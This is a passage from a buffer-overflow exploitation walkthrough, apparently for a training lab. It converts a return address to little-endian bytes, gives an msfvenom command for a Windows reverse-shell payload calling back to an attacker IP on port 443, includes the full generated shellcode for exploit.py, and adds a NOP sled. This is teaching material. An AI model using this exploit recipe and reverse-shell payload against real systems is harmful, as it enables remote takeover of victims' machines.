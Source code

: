 Our first address is: 625011af  
So we break this down to 62 50 11 af  
And then we line this up 'backwards' and paste it into our exploit.py
```
\xaf\x11\x50\x62
```

{: .warning }
Mind the leading \ backslash - I forgot it my first time around!

### Generate a Payload
We use MSFVenom to generate a payload. We're specifying a stageless windows payload because the victim machine is running windows. Note that your lhost and lport will differ. The -b switch is where we're specifying our bad characters, once again, your results will likely differ. Just be sure to include all of the bad characters found previously.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
```
We take the output from this command and modify exploit.py, overwriting whatever we had there for the 'payload' variable. Note that we don't need anything except the output in quotes. For the payload varialbe in our script, it should similar to the following, noting the positioning of the quotations and parenthesis:
```
payload = ("\xd9\xeb\xd9\x74\x24\xf4\xbf\x21\xac\x4c\x68\x58\x31\xc9"
"\xb1\x52\x31\x78\x17\x83\xe8\xfc\x03\x59\xbf\xae\x9d\x65"
"\x57\xac\x5e\x95\xa8\xd1\xd7\x70\x99\xd1\x8c\xf1\x8a\xe1"
"\xc7\x57\x27\x89\x8a\x43\xbc\xff\x02\x64\x75\xb5\x74\x4b"
"\x86\xe6\x45\xca\x04\xf5\x99\x2c\x34\x36\xec\x2d\x71\x2b"
"\x1d\x7f\x2a\x27\xb0\x6f\x5f\x7d\x09\x04\x13\x93\x09\xf9"
"\xe4\x92\x38\xac\x7f\xcd\x9a\x4f\x53\x65\x93\x57\xb0\x40"
"\x6d\xec\x02\x3e\x6c\x24\x5b\xbf\xc3\x09\x53\x32\x1d\x4e"
"\x54\xad\x68\xa6\xa6\x50\x6b\x7d\xd4\x8e\xfe\x65\x7e\x44"
"\x58\x41\x7e\x89\x3f\x02\x8c\x66\x4b\x4c\x91\x79\x98\xe7"
"\xad\xf2\x1f\x27\x24\x40\x04\xe3\x6c\x12\x25\xb2\xc8\xf5"
"\x5a\xa4\xb2\xaa\xfe\xaf\x5f\xbe\x72\xf2\x37\x73\xbf\x0c"
"\xc8\x1b\xc8\x7f\xfa\x84\x62\x17\xb6\x4d\xad\xe0\xb9\x67"
"\x09\x7e\x44\x88\x6a\x57\x83\xdc\x3a\xcf\x22\x5d\xd1\x0f"
"\xca\x88\x76\x5f\x64\x63\x37\x0f\xc4\xd3\xdf\x45\xcb\x0c"
"\xff\x66\x01\x25\x6a\x9d\xc2\x40\x66\x90\xd2\x3d\x7a\xaa"
"\xd3\x06\xf3\x4c\xb9\x68\x52\xc7\x56\x10\xff\x93\xc7\xdd"
"\xd5\xde\xc8\x56\xda\x1f\x86\x9e\x97\x33\x7f\x6f\xe2\x69"
"\xd6\x70\xd8\x05\xb4\xe3\x87\xd5\xb3\x1f\x10\x82\x94\xee"
"\x69\x46\x09\x48\xc0\x74\xd0\x0c\x2b\x3c\x0f\xed\xb2\xbd"
"\xc2\x49\x91\xad\x1a\x51\x9d\x99\xf2\x04\x4b\x77\xb5\xfe"
"\x3d\x21\x6f\xac\x97\xa5\xf6\x9e\x27\xb3\xf6\xca\xd1\x5b"
"\x46\xa3\xa7\x64\x67\x23\x20\x1d\x95\xd3\xcf\xf4\x1d\xf3"
"\x2d\xdc\x6b\x9c\xeb\xb5\xd1\xc1\x0b\x60\x15\xfc\x8f\x80"
"\xe6\xfb\x90\xe1\xe3\x40\x17\x1a\x9e\xd9\xf2\x1c\x0d\xd9"
"\xd6")
```
We also need to add in some NOPs - think of these as padding to allow more time for the exploit to be read and execute. My understanding is that we can add or subtract these in increments of 8, but 16 should do the trick in most cases. If the listener doesn't pickup, we may return here and increase the NOPs to 32.   
We add NOPs by modifying the exploit.py's 'padding' variable like so:
```
padding = "\x90" * 16
```
